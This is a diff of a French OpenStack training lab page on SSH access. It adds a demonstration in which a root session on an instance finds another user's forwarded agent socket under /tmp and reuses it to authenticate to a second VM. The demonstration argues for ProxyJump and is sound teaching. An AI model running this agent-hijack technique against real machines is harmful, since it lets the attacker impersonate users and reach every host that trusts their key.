

Before and after one commit to eazysec/openstack-lab-trainee, a Markdown page: tps/tp02/tp02-instances-ssh.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
feat(tp02): risque du transfert d'agent démontré (méthode E)

````diff
--- a/tps/tp02/tp02-instances-ssh.md
+++ b/tps/tp02/tp02-instances-ssh.md
@@ -289,9 +289,24 @@ ssh cirros@<FIP2>
 
 Sans `-A`, `ssh-add -l` sur l'instance répond qu'il n'y a pas d'agent : la clé n'est pas transmise.
 
-> Sécurité : pendant la session, toute personne root sur l'instance peut utiliser votre agent pour
-> se connecter en votre nom partout où votre clé est acceptée. À réserver aux machines de
-> confiance ; préférer `ProxyJump` (C, D), où l'instance ne voit jamais votre clé.
+**Le risque, par l'expérience.** Gardez la session ouverte avec `-A`. Dans un deuxième terminal du
+poste, ouvrez une autre session sur l'instance, **sans** `-A` : elle joue le rôle d'un attaquant qui
+a obtenu root sur l'instance.
+
+```bash
+# [instance] : deuxième session, ouverte sans -A
+ssh-add -l                                              # pas d'agent dans cette session
+sudo find /tmp -type s -path '/tmp/ssh-*/agent.*'       # la prise de l'agent de la première session
+S=$(sudo find /tmp -type s -path '/tmp/ssh-*/agent.*' | head -1)
+sudo SSH_AUTH_SOCK=$S ssh-add -l                        # root voit votre clé du poste
+sudo SSH_AUTH_SOCK=$S ssh cirros@<FIP2> hostname        # et s'en sert pour joindre la VM
+```
+
+La clé n'a pas quitté votre poste, mais root a pu s'en servir : l'agent signe pour qui sait joindre
+sa prise. Fermez la première session, puis relancez la dernière commande dans la deuxième : refus,
+la prise a disparu. Le risque dure le temps de la session, et vaut pour toutes les machines où votre
+clé est acceptée. Réservez `-A` aux machines de confiance ; préférez `ProxyJump` (C, D), où
+l'instance ne voit jamais votre clé.
 
 ### F. Tunnel de port (`-L`)
 
@@ -360,7 +375,8 @@ openstack server list
   tunnel.
 - [ ] Captures faites : `password=` absent du trafic SSH, présent à la sortie du tunnel.
 - [ ] Connexion à `tp02-vm-poste` depuis votre poste par au moins trois méthodes parmi B à F.
-- [ ] Le risque du transfert d'agent (E) expliqué.
+- [ ] Le risque du transfert d'agent (E) démontré : root joint la VM avec votre agent, puis plus
+  après la fermeture de la session.
 - [ ] Nettoyage fait (`openstack server list` ne montre plus de `tp02-…`).
 
 ## Sources
````
